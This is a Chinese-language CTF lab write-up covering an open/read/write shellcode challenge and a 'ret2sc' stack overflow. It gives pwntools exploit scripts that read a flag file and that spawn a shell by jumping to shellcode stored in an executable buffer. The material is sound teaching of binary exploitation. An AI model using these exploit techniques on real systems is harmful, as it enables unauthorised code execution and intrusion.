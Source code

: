 这里可以看到只有open, read, write这几种。  
  
也可以直接使用`shellcraft`来编写汇编  
  
https://pwntoolsdocinzh-cn.readthedocs.io/en/master/shellcraft.html  
  
```python  
from pwn import *  
context.log_level = "debug"  
p=process('./orw.bin')  
# push  path   
payload=shellcraft.pushstr('./flag.txt')  
# open file  
payload+=shellcraft.open("esp")  
# read file   
payload+=shellcraft.read("eax","esp",0x100)  
# write stdout  
payload+=shellcraft.write(1,"esp",0x100)  
p.recv(1024)  
#gdb.attach(p)  
p.sendline(asm(payload))  
p.recvall()  
p.close()  
```  
  
## lab3  
  
反编译:  
  
```c  
int __cdecl main(int argc, const char **argv, const char **envp)  
{  
  char s; // [esp+1Ch] [ebp-14h]  
  
  setvbuf(stdout, 0, 2, 0);  
  printf("Name:");  
  read(0, &name, 0x32u);  
  printf("Try your best:");  
  return (int)gets(&s);  
}  
```  
  
简单栈溢出, name(0x0804a060)所在段可执行,可写shellcode，利用gets处的溢出将main的返回地址改成name的地址。  
  
```shell  
pwndbg> vmmap  
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA  
0x8048000 0x8049000 r-xp 1000 0 /home/LAB/lab3/ret2sc  
0x8049000 0x804a000 r-xp 1000 0 /home/LAB/lab3/ret2sc  
0x804a000 0x804b000 rwxp 1000 1000 /home/LAB/lab3/ret2sc  
```  
  
  
  
```python  
#coding=utf-8  
  
from pwn import *  
context.log_level = "debug"  
context.terminal = ["tmux", "split", "-h"]  
  
r = process("./ret2sc")  
r.recvuntil(":")  
shellcode = asm(shellcraft.sh())  
r.sendline(shellcode)  
r.recvuntil(":")  
name_address = 0x0804a060  
payload = "a"*32 + p32(name_address)  
r.sendline(payload)  
```